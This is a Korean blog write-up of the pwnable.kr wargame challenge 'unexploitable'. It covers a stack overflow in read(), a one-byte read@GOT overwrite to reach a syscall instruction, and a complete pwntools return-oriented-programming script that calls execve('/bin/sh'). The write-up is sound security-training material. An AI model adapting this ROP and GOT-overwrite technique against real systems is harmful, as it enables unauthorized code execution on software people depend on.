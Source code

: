 ```yaml
---
layout: post
date: 2021-11-14
title: pwable.kr unexploitable write-up
tags: [ROP, pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```


## 소스코드 분석


---


```c
#include <stdio.h>
void main(){
	// no brute forcing
	sleep(3);
	// exploit me
	int buf[4];
	read(0, buf, 1295);
}

```


코드는 간단하다. <br>
출력함수 없이 read 함수만 존재하고 bof가 터진다.<br><br>


## 취약점 분석


---


가젯이 많이 부족하다.<br>
쓸만한 가젯을 찾던 중에 syscall을 발견했고, csu 부분을 이용해서 execve를 실행시키면 될 거 같다.<br>
syscall은 read 함수의 got를 1byte 변조해서 사용했다.


```shell
pwndbg> disas read
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7af2140 <+0>:	lea    rax,[rip+0x2e0891]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7af2147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af2149 <+9>:	test   eax,eax
   0x00007ffff7af214b <+11>:	jne    0x7ffff7af2160 <__GI___libc_read+32>
   0x00007ffff7af214d <+13>:	xor    eax,eax
   0x00007ffff7af214f <+15>:	syscall

```


{: file='gdb'}


하위 1byte를 0x4f로 변조해줬다.<br>
<br>


사실 삽질을 굉장히 많이 했는데, 처음엔 sleep 함수의 got를 변조할 생각이었다.<br>
하지만 syscall의 주소가 sleep 함수의 got와 하위 1.5 byte가 달랐기 때문에 실패하였다.<br>


```shell
pwndbg> disas sleep
Dump of assembler code for function __sleep:
   0x00007ffff7ac6640 <+0>:	push   rbp
   0x00007ffff7ac6641 <+1>:	push   rbx
   0x00007ffff7ac6642 <+2>:	sub    rsp,0x28
   0x00007ffff7ac6646 <+6>:	mov    rbx,QWORD PTR [rip+0x30681b]        # 0x7ffff7dcce68
   0x00007ffff7ac664d <+13>:	mov    rax,QWORD PTR fs:0x28
   0x00007ffff7ac6656 <+22>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7ac665b <+27>:	xor    eax,eax
   0x00007ffff7ac665d <+29>:	mov    eax,edi
   0x00007ffff7ac665f <+31>:	mov    rdi,rsp
   0x00007ffff7ac6662 <+34>:	mov    QWORD PTR [rsp+0x8],0x0
   0x00007ffff7ac666b <+43>:	mov    rsi,rdi
   0x00007ffff7ac666e <+46>:	mov    ebp,DWORD PTR fs:[rbx]
   0x00007ffff7ac6671 <+49>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ac6675 <+53>:	call   0x7ffff7ac6760 <__GI___nanosleep> # here

```


{: file='gdb'}


```shell
pwndbg> disas __GI___nanosleep
Dump of assembler code for function __GI___nanosleep:
   0x00007ffff7ac6760 <+0>:	lea    rax,[rip+0x30c271]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7ac6767 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7ac6769 <+9>:	test   eax,eax
   0x00007ffff7ac676b <+11>:	jne    0x7ffff7ac6780 <__GI___nanosleep+32>
   0x00007ffff7ac676d <+13>:	mov    eax,0x23
   0x00007ffff7ac6772 <+18>:	syscall # here

```


{: file='gdb'}


때문에 read 함수의 syscall을 사용하기로 했다.
<br><br>
일단 read 함수를 통해서 bss 영역에 /bin/sh 문자열을 써주었고, 다시 read 함수를 사용해서 read@got를 syscall로 변조해줬다. <br>
하위 1byte를 변조했기 때문에 rax는 1로 세팅이 되어있었고, 덕분에 write 함수를 사용할 수 있었다. <br>
아무 곳에서 execve의 syscall number만큼 읽어들이면 rax가 그 숫자로 맞춰지기 때문에 rdi에 아까 써둔 문자열이 위치한 bss 영역의 주소를 넣어주면 쉘을 실행시킬 수 있다. <br>


<br>


## 익스플로잇


---


```python
#unexploitable.py
from pwn import *

s = ssh(user='unexploitable',host='pwnable.kr',port=2222,password='guest')
p = s.process("./unexploitable")

# p = process('./unexploitable')

e = ELF('./unexploitable')
bss = e.bss()

read_plt = e.plt['read']
read_got = e.got['read']

csu_init = p64(0x00000000004005e6)
csu_call = p64(0x00000000004005d0)

payload = 'A' * 24

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(bss)
payload += p64(0x8)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_got)
payload += p64(1)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(1)
payload += p64(read_got)
payload += p64(0x3b)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(bss)
payload += p64(0)
payload += p64(0)
payload += csu_call

p.send(payload)
sleep(3)
p.send('/bin/sh\\x00')
sleep(3)
p.send('\\x5e\\x00')

p.interactive()

```


<br>


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/db8d1d99-195e-4f89-8fd8-1fc58a1c83ef/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230621%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230621T010743Z&X-Amz-Expires=3600&X-Amz-Signature=410d44d2e18587bb85cd40b231dfec803e24d5295ce09157368ebde61eada15e&X-Amz-SignedHeaders=host&x-id=GetObject)


쉘을 획득했다.

